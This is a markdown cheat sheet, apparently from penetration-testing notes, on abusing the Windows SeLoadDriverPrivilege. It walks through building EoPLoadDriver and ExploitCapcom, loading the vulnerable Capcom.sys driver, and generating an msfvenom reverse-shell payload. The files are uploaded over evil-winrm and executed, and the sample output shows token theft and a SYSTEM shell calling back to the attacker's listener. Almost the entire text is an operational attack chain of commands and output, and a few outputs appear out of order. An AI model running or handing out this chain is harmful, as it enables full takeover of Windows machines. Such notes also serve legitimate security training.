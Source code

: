 ```yaml
---
title: "SeLoadDriverPrivilege"
date: 2025-7-25
tags: ["Exploitation", "SeLoadDriverPrivilege", "Privilege Escalation", "Windows", "Reverse Shell"]
---
```


### Abuse #1: Install a Malicious Driver

#### 1. Compile eoploaddriver

```console
+---------------------------------------------------------------------------------------+
| 1. Open Visual Studio 2022                                                            |
| 2. Create a new project                                                               |
| 3. Project Template : C++ Console App                                                 |
| 4. Project Name     : Eoploaddriver                                                   |
| 5. Replace code     : eoploaddriver.cpp                                               |
| 6. Remove header    : `include "stdafx.h"`                                            |
| 7. Release -> x64                                                                     |
| 8. Build   -> Build Solution                                                          |
| 9. Exported to C:\Users\user\source\repos\Eoploaddriver\x64\Release\Eoploaddriver.exe |
+---------------------------------------------------------------------------------------+
```

<small>*Ref: [eoploaddriver.cpp](https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp)*</small>

#### 2. Download Capcom.sys

[Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)

#### 3. Compile ExploitCapcom

```console
+----------------------------------------------------------------------------------------+
| 1. Double click ExploitCapcom.sln                                                      |
| 2. Replace the payload to `TCHAR CommandLine[] = TEXT("C:\\ProgramData\\rev.exe");` |
| 3. Release -> x64                                                                      |
| 4. Build   -> Build Solution                                                           |
| 5. Exported to .\x64\Release\ExploitCapcom.exe                                         |
+----------------------------------------------------------------------------------------+
```

<small>*Ref: [ExploitCapcom](https://github.com/tandasat/ExploitCapcom/tree/master/ExploitCapcom)*</small>

#### 3. Create Stageless Payload

```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f exe -o rev.exe
```

```console {class="sample-code"}
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.31 LPORT=1337 -f exe -o rev.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: rev.exe
```

#### 4. Upload

```console
# For example (evil-winrm)
upload EoPLoadDriver.exe C:\ProgramData\EoPLoadDriver.exe
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> upload EoPLoadDriver.exe C:\ProgramData\EoPLoadDriver.exe
                                        
Info: Uploading /home/kali/EoPLoadDriver.exe to C:\ProgramData\EoPLoadDriver.exe
                                        
Data: 20480 bytes of 20480 bytes copied
                                        
Info: Upload successful!
```

```console
upload Capcom.sys C:\ProgramData\Capcom.sys
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> upload Capcom.sys C:\ProgramData\Capcom.sys
                                        
Info: Uploading /home/kali/Capcom.sys to C:\ProgramData\Capcom.sys
                                        
Data: 14100 bytes of 14100 bytes copied
                                        
Info: Upload successful!
```

```console
upload ExploitCapcom.exe C:\ProgramData\ExploitCapcom.exe
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> upload ExploitCapcom.exe
                                        
Info: Uploading /home/kali/ExploitCapcom.exe to C:\programdata\ExploitCapcom.exe
                                        
Data: 335188 bytes of 335188 bytes copied
```

```console
upload rev.exe C:\ProgramData\rev.exe
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> upload rev.exe C:\ProgramData\rev.exe
                                        
Info: Uploading /home/kali/rev.exe to C:\ProgramData\rev.exe
                                        
Data: 9556 bytes of 9556 bytes copied
                                        
Info: Upload successful!
```

#### 5. Exploit

```console
# Start a nc listener
rlwrap nc -lvnp <LOCAL_PORT>
```

```console {class="sample-code"}
$ rlwrap nc -lvnp 1337                                                                                                    
listening on [any] 1337 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.193] 49855
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\programdata>whoami
whoami
nt authority\system
```

```console
C:\ProgramData\Eoploaddriver.exe System\CurrentControlSet\test C:\ProgramData\Capcom.sys
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> C:\ProgramData\ExploitCapcom.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 000001937C0C0008
[+] Shellcode was executed
[+] Token stealing was successful
[-] CreateProcess() failed
```

```console
C:\ProgramData\ExploitCapcom.exe
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> C:\ProgramData\ExploitCapcom.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 00000221D2140008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program
```